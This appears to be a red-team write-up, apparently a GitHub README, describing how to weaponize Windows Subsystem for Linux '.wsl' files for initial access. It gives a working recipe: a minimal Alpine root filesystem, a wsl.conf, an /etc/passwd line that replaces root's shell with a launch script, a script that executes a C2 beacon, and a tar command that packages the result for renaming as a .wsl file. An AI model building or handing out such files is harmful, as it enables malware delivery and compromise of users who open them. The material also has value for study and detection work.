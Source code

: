 # WSL Files

When looking into possible new file formats for Initial Access, one really grabbed my attention. By using the following PowerShell one-liner, you can find file extensions available on the workstation. 
When reviewing the results, you might notice that some extensions do not have a designated program for execution:

```powershell
Get-ChildItem Registry::HKEY_CLASSES_ROOT | Where-Object { $_.Name -match '^.*\\\.' } | ForEach-Object { $_.PSChildName }
```

From the output, the `.wsl` file extension was particularly interesting.

We are already familiar with WSL as the **Windows Subsystem for Linux (WSL)**, which allows developers to run a GNU/Linux environment on Windows. While powerful, WSL is traditionally limited to terminal-based interactions. Users can run Linux on the Windows workstation with some capabilities that are limited to the terminal. Reading the documentation for WSL, I found an interesting paragraph highlighting WSL file extensions.

<img width="890" height="228" alt="image" src="https://github.com/user-attachments/assets/afe8b4ed-fa5b-4dd7-8229-d9ccc711368a" />

## Weaponizing a WSL File

To create a weaponized WSL file, three components are required:

1. **An OS (root filesystem)**
2. **A WSL configuration file**
3. **A payload that connects back to a C2 server**

### File Size Concerns

Initially, I was concerned about the file size. My first demo was around **100MB**, which was excessive since I didn't need full OS capabilities just a way to run a command or payload.

Thanks to a tweet, I discovered **Alpine Linux**, a great choice due to its minimal file size (~8MB).

### The WSL Configuration File

The **WSL configuration file**, which only needs the `[oobe]` tag and a default name to function. This config file must be placed under the `/etc` directory.

Example `wsl.conf`:

```ini
[oobe]
defaultName = CalcWSL
```

### Crafting the Payload

This part was tricky. While the WSL config file supports a `command` tag, it didn’t reliably execute across distributions (Ubuntu, Debian, Alpine). For example:

- **Debian**: I could simply replace the `.bashrc` file with my commands/payload and it worked.
- **Alpine**: This didn’t work on the first run. To make it reliable, I had to modify the `passwd` file.

By editing the `passwd` file, I ensured that every time the WSL instance launched **as root**, it would execute a script instead of opening a shell.

Modified `/etc/passwd` line:

```
root:x:0:0:root:/root:/root/launch.sh  # <- Path to Script
```

### The `launch.sh` Script

```sh
#!/bin/sh
exec /root/beacon_x64.exe
```

This script executes the beacon payload.

## Compiling the WSL Root Filesystem

Once you have:

- The OS (e.g., Alpine Linux)
- The `wsl.conf` configuration file
- The payload and launch script

You can compile everything into a WSL-compatible tarball:

```bash
tar --numeric-owner -cf Alpine.tar -C /tmp/alpine/ .
```

This results in a small `.tar` which we simply rename to the `WSL` extention.

## Demo:
https://github.com/user-attachments/assets/e018627d-a896-4839-b891-28d70acfab49



